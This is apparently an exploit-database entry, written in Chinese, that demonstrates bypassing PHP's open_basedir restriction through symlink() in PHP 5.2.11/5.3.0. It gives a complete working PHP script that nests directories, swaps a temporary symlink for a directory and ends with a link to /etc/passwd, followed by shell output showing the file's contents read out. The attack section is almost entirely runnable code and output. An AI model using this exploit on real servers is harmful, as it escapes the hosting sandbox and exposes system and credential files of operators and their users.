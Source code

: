 ### PHP 5.2.11/5.3.0 - Multiple Vulnerabilities
---
symlink()函数在php中用于创建符号连接，函数原型如下：

```
bool symlink ( string $target , string $link )
```

其中$target和$link参数会受到open_basedir的限制，但是可以通过以下的方法来进行绕过。

首先来看被限制的情况

```
<?php
//sym.php
symlink("/etc/passwd", "./symlink");
?>
```

执行php sym.php返回如下

```
PHP Warning: symlink(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/www) in /www/test/sym.php on line 2

Warning: symlink(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/www) in /www/test/sym.php on line 2
```
open_basedir会禁止连接到/etc/passwd

但是可以试着构造以下的情况,

来看下当前目录情况

```
127# ls -la
total 8
drwxr-xr-x 2 www www 512 Oct 20 00:33 .
drwxr-xr-x 13 www www 1536 Oct 20 00:26 ..
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
127# pwd
/www/test
```

其中kakao.php代码如下：

```
<?php
mkdir("abc");
chdir("abc");
mkdir("etc");
chdir("etc");
mkdir("passwd");
chdir("..");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("abc/abc/abc/abc","tmplink");
symlink("tmplink/../../../etc/passwd", "exploit");
unlink("tmplink");
mkdir("tmplink");
?>
```

这个时候对于symlink来说参数都是合法的。

执行php kakao.php，再查看当前目录

```
127# php kakao.php
127# ls -la
total 12
drwxr-xr-x 4 www www 512 Oct 20 00:37 .
drwxr-xr-x 13 www www 1536 Oct 20 00:26 ..
drwxr-xr-x 4 www www 512 Oct 20 00:37 abc
lrwxr-xr-x 1 www www 27 Oct 20 00:37 exploit -> tmplink/../../../etc/passwd
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
drwxr-xr-x 2 www www 512 Oct 20 00:37 tmplink
```

这个时候再来看下exploit文件中的内容

```
127# cat exploit
root:*:0:0:god:/root:/bin/csh
...
...
```

已经成功把/etc/passwd中的内容显示出来了

现在的tmplink是个文件夹，所以链接"exploit"变成了"../../etc/passwd"，成功绕开了symlink()中open_basedir对参数的检查。